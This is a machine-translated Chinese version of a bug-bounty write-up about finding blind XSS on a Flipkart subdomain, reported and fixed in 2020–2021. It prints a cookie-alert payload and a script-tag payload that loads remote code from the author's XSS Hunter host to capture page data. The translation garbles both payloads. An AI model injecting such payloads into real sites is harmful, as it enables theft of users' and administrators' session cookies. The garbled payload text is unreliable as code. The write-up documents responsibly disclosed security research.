



# 我是如何在 Flipkart 上找到 XSS 的

> 原文：<https://infosecwriteups.com/how-i-found-blind-xss-on-flipkart-6b22199f3496?source=collection_archive---------1----------------------->

大家好…
希望你们都过得好。这篇关于 Flipkart 跨站点脚本漏洞的文章。

如果你对 InfoSec 或 dev 感兴趣，你一定听说过跨站点脚本漏洞。OWASP 十大漏洞之一。对于那些不知道 XSS 的人，我会提供一些小信息。

> ***(***[***跨站脚本***](https://owasp.org/www-community/attacks/xss/)***)*** *跨站脚本(XSS)攻击是一种注入的类型，恶意脚本被注入到原本良性的、可信的网站中。当攻击者使用 web 应用程序向不同的最终用户发送恶意代码(通常以浏览器端脚本的形式)时，就会发生 XSS 攻击。*
> 
> *我在搜索一个 bug 赏金程序的时候，偶然发现了* [*Flipkart bug 赏金程序*](https://www.flipkart.com/pages/security) *。在有效提交程序中，Flipkart 将在他们的名人堂中提到 bug 赏金猎人的名字。所以我决定试一试。*

**开始在 Flipkart 上打猎…..**

经过一番调查，我发现了一个与无速率限制相关的问题😍🙌

> *Fri，2020 年 11 月 20 日——向 Flipkart 安全团队报告了该问题。*
> 
> *孙，2020 年 11 月 22 日——收到团队的回复，是一份副本😥*

**失望……**

然后我决定如果我再试一次😎🤏

再次在 Flipkart 上开始了我的狩猎之旅。这次我从正确的侦察步骤开始。从子域枚举开始，我遇到了一个 Flipkart 域。这是一个普通的登录表单页面。

我试过和 SQL 注入在这里，但没有结果。然后尝试在 URL 参数上使用正常的 XSS 有效负载。嘿，它工作了🤓🙌。XSS 警报出现了。

> ***有效载荷:*** *测试？"></脚本> <脚本>警报(document . cookie)</脚本>*

**XSS 警报弹出**

如果我在这里报告这个问题，影响会很低。所以我们需要增加我们的影响力。

真正的狩猎从这里开始….. [**XSS 猎人**](https://xsshunter.com/)

**什么是 XSS 猎人**

XSS·亨特可以让你发现各种各样的跨站脚本漏洞，包括经常被遗漏的盲目的 XSS。该服务通过托管专门的 XSS 探测器来工作，这些探测器在启动时扫描页面，并将关于易受攻击页面的信息发送到 XSS·亨特服务。

所以这对盲人 XSS 来说是一个非常好的工具。如果 XSS 在客户端被触发，我们可以看到它。所以影响不大。如果它是在内部面板或管理控制面板中触发的，则影响很大。我们可以得到他们的会话标识 cookie 等等。关于 XSS 亨特的一个更好的功能是，当一个有效负载在内部仪表板或任何其他地方执行时，它会给出一个警告电子邮件，并在 XSS 亨特页面上，它会为该特定端点创建概念验证。

我在同一个 URL 参数上使用了一个基本的 used 亨特有效载荷。

**有效载荷:**测试"> <脚本 src = https://lohigowda . XSS . ht></脚本>

嘿嘿嘿😍…我收到了 XSS·亨特发来的一封电子邮件，于是概念验证就诞生了。在这里，我们可以看到触发的 ip、URL 位置和该页面的屏幕截图。

**XSS 猎人 POC**

所以最后，我完成了臭虫狩猎。所以现在是报道时间。然后我准备了一份干净的报告，提交给了 Flipkart 安全团队。

**报告时间:**

> 【2020 年 12 月 17 日星期四——向安全团队报告
> 
> 【2020 年 12 月 18 日——团队的首次回应
> 
> *2020 年 12 月 28 日-错误被接受*
> 
> *2021 年 1 月 5 日-问题已解决*
> 
> *2021 年 01 月 08 日——在他们的* [*名人堂*](https://www.flipkart.com/pages/security) *中得到承认。*

**名人堂**

**名人纪念馆**

**感谢阅读！….黑客快乐！**

> *Linkedin:*[*Lohith Gowda M*](https://www.linkedin.com/in/lohigowda/)
> 
> *推特:*[*lohigowda _ in*](https://twitter.com/lohigowda_in)

insta gram:[lohigowda . in](https://www.instagram.com/lohigowda.in/)

> *作品集:*[*https://www.lohigowda.in/*](https://www.lohigowda.in/)